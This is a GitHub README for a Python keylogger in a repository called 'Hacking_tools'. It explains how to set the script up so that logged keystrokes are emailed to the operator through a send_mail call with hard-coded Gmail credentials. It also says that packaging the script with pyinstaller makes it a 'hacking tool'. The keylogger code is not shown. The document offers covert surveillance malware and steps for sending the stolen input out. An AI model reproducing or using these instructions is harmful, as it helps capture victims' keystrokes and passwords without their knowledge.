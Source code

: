 # Hacking_tools

# Keylogger

A keylogger, sometimes called a keystroke logger or system monitor, is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. Keylogger software is also available for use on smartphones, such as the Apple iPhone and Android devices but it is a simple keylogger program.

[+] Requirements: Internet and Python IDEs   Ex: Pycharm, PyDev, IDLE, Spyder etc.. 


[+] Before executing keylogger.py make sure that you have provided your proper emailid and password in the program that shown below. 

self.send_mail("Your email id ", "Your Password", self.log)

For Ex: self.send_mail("arnavkumar6360@gmail.com", "abc123def456", self.log)

Also enable the Less secure app access of your google account to receive the mail send by the program.
    

[+] Link to enable Less secure app access https://myaccount.google.com/lesssecureapps


[+] Note: Its just a program, to convert this into a hacking tool we need to package this program by pyinstaller.exe. If u want to know more about this please contact through this mail arnavkumar6360@gmail.com
